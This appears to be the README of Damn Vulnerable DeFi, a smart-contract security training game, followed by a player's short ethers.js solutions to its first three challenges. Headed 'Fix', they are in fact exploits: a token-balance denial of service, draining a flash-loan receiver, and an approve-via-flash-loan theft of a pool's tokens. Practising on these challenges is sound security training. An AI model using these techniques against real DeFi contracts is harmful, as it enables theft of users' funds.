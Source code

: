 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

Fix #1:        
````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Fix #2:

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Fix #3:
````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Fix #4: [Challenge #4 - Side Entrance]

```
```
